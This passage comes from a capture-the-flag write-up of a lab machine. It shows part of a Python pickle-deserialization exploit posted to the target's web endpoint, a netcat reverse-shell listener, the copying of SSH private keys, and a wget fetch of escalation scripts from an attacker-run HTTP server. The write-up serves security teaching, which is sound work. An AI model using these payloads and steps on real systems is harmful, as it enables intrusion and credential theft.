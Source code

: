 ```python
	  None, # exec
	  None, #stdin
	  None, #stdout
	  None, #stderr
	  None, #preexec
	  False, #close_fds
	  True, # shell
	  ))

def submit_exploit():
	data = base64.b64encode(cPickle.dumps(Exploit()))
	print("Submitting data: {}".format(data))
	response = requests.post("http://10.10.10.91:5000/newpost", data=data)
	print(response.status_code)
	print(response.text)

if __name__ == "__main__":
	submit_exploit()
```

On the attacker system, I had a netcat listener ready, which was started as follows:

```bash
$ nc -nlvp 1337
```

After the connection was established successfully, I could read the file `/home/roosa/user.txt`, which is the flag for owning user.


## root

The reverse shell is very limited. As the box has SSH running on port 22, searching for SSH keys of the current user under `/home/roosa/.ssh/` came into my mind. There was already a key pair on the system, which I simply copied to the attacker machine. Trying to login via SSH with `ssh -i id_rsa roosa@10.10.10.91` worked out of the box.

I searched a bit through the home directory of roosa and found a git repository in the `work` folder containing a private RSA key. Unfortunately, the key could not be used to connect to the box as root. I gave up on the key temporarily and tried to find other ways to escalate privileges.

There are a few great scripts that cover some basic checks, but the box did not have full internet access to download them directly from the source. In order to download scripts on the box, I used a Python HTTP server on the attacker system by issuing the following command inside the directory where the files that should be transmitted to the box were stored:

```bash
$ python -m SimpleHTTPServer 9999
```

As the box has `wget` installed, files could be simply copied to the target folder by issuing the following command:

```bash
$ wget http://<ip>:9999/<filename>
```
